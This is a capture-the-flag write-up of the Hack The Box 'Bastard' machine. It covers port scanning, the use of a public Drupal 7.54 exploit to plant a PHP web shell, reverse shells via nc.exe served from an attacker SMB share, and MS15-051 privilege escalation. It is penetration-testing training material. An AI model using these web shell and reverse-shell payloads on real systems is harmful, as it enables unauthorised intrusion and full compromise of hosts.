


# [Bastard](https://app.hackthebox.com/machines/bastard)

```bash
nmap -p- --min-rate 10000  10.10.10.9 -Pn
```


I see that ports (80,135) are open, let's do greater nmap scan for them.


```bash
nmap -A -sC -sV -p80,135 10.10.10.9 -Pn
```


I see that port 80 is 'Drupal' website and version of this is 'Drupal 7.54'.


Let's check publicly known exploit for this version of 'Drupal'


Let's try to use it.

```bash
searchsploit -m 41564
```

Again, I changed some stuff from this script as below.
```bash
$url = 'http://10.10.10.9';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$file = [
    'filename' => 'dr4ks.php',
    'data' => '<?php system($_REQUEST["cmd"]); ?>'
];
```

After this, I just run php file via `php 41564.php` on Terminal.


Now, we can browse our webshell `dr4ks.php` on our target to run Windows OS commands.


Now, it's time to add reverse shell.

First, I open my SMB share on attacker machine via below command.

```bash
python3 /usr/share/doc/python3-impacket/examples/smbserver.py share nc
```





Then, I browse below payload into my `webshell`

```bash
\\10.10.14.9\share\nc.exe%20-e%20cmd.exe%2010.10.14.9%201337
```


I got shell from my listener (1337).

```bash
nc -nlvp 1337
```


user.txt


For privesc, I run `systeminfo` command.


I found `MS15-051` vulnerability for our target machine.

Let's download this vulnerability's executable.

And run SMB share.


Then, run command on windows shell.

```bash
\\10.10.14.9\share\ms15-051x64.exe "\\10.10.14.9\share\nc.exe -e cmd.exe 10.10.14.9 1338"
```


I run also listener to get reverse shell.



root.txt

